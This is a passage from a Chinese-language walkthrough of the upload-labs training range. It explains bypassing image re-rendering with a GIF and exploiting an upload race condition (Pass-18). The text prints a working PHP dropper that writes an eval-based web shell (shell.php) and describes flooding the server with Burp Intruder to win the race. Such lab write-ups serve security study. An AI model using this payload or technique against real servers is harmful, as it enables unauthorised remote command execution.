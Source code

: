   ![在这里插入图片描述](./upload-labs靶场打靶记录.assets/21.jpg)

7. 第二种：插入到经过第一次渲染之后的照片里，这里的渲染只会进行一次，也就是说，渲染过后的照片再上传时并不会再次被渲染，所以我们的PHP语句也得以被保留。

8. 这里说说为什么要用.gif 吧：如果我们用.jpg 或者.png的话，经过第一次渲染之后的图片与原图片相同的区域非常少，从而也就不适合我们插入语句。但是如果非要用.jpg 或者.png的话，那就需要经过一些编程的操作了，本节不对此做论述。

##  Pass-18 逻辑漏洞 (条件竞争)

1. 这样理解条件竞争：如果只让你干A一件事，你出现差错的概率很小，但是如果让你同时干A、B、C三种事呢，你是不是很可能由于忙乱而出现些错误？这就是条件竞争。（它的重命名方式是时间戳，如果在极短时间内多次上传，文件的重命名就会因为相同而冲突，就会产生一些错误）

> **文件上传条件竞争前提：** 服务器会先将任意类型文件放在服务器上，然后再判断合法性，非法则删除（文件会在服务器停留极短时间，我们使用Burp疯狂地向服务器提交请求，在其服务器忙不过来的时候便可能会出现这种问题）

2. 由于我们需要长久的连接到我们的木马，但是其只能在服务器上存在极短时间，这肯定是不行的。但是，极短时间可以执行一句代码，执行什么呢，如下：`<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST["cmd"]) ?>'); ?>`，这句话的意思是生成一个shell.php在服务器目录中，而其文件内容就是：`<?php @eval($_POST["cmd"]) ?>`，在此之后，上传的文件判断后仍会被删除，但是新创建的shell.php并不会被判断而删除。

3. 理论结束，开始操作，我们先写一个php文件，其内容就是`<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST["cmd"]) ?>'); ?>`，然后上传，用Burp拦截，发送到Intruder模块，设置空载，然后让Burp开始跑。
